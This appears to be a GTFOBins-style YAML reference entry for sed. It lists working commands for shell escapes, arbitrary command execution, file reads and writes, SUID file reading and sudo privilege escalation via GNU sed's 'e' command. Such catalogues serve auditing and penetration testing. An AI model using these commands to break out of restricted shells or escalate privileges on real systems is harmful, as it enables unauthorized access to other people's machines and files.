 functions:
  shell:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n '1e exec sh 1>&0' /etc/hosts
    - description: GNU version only. The resulting shell is not a proper TTY shell.
      code: sed e
  command:
    - description: GNU version only.
      code: sed -n '1e id' /etc/hosts
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n "1s/.*/DATA/w $LFILE" /etc/hosts
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  sudo:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n '1e exec sh 1>&0' /etc/hosts
---
